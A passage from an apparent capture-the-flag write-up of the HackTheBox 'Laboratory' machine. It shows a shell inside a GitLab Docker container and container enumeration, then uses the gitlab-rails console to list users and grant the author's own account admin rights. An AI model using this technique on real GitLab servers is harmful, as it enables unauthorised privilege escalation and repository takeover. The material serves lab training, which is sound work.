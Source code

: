 Initial enumeration confirms we are inside a docker container:

```shell
git@git:/$ hostname -i
172.17.0.2
git@git:/$ hostname
git.laboratory.htb
```

Also, there is `.dockerenv` to confirm the same

```shell
git@git:/$ ls -la
total 88
drwxr-xr-x   1 root root 4096 Jul  2  2020 .
drwxr-xr-x   1 root root 4096 Jul  2  2020 ..
-rwxr-xr-x   1 root root    0 Jul  2  2020 .dockerenv
-rw-r--r--   1 root root  157 Feb 24  2020 RELEASE
drwxr-xr-x   2 root root 4096 Feb 24  2020 assets
drwxr-xr-x   1 root root 4096 Feb 24  2020 bin
drwxr-xr-x   2 root root 4096 Apr 12  2016 boot
drwxr-xr-x   5 root root  340 Apr 21 05:04 dev
drwxr-xr-x   1 root root 4096 Jul  2  2020 etc
[..SNIP..]
```

Now our next approach should be to either escape this container or elevate privileges to root in this container, however none of it was possible here.

### GitLab - SecureDocker Project access

Since we are inside GitLab container, we can make of use Gitlab-rails console to manipulate GitLab user data:

Here are some Cheatsheet which I referred initially : [**Cheatsheet1**](https://docs.gitlab.com/ee/administration/troubleshooting/gitlab_rails_cheat_sheet.html) & [**Cheatsheet**](https://docs.gitlab.com/ee/security/reset_user_password.html)

#### Admin Priv - Self

Firstly, We can grant ourself admin privilege:

```ruby
git@git:~$ gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1 (d18b43a5f5a) FOSS
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)
irb(main):001:0> User.active
User.active
=> #<ActiveRecord::Relation [#<User id:4 @seven>, #<User id:1 @dexter>, #<User id:5 @tuser>, #<User id:6 @cfx>]>
irb(main):002:0> User.admins
User.admins
=> #<ActiveRecord::Relation [#<User id:1 @dexter>]>
irb(main):003:0> cfx.admin = true
cfx.admin = true
irb(main):004:0> cfx.save
cfx.save
=> true
```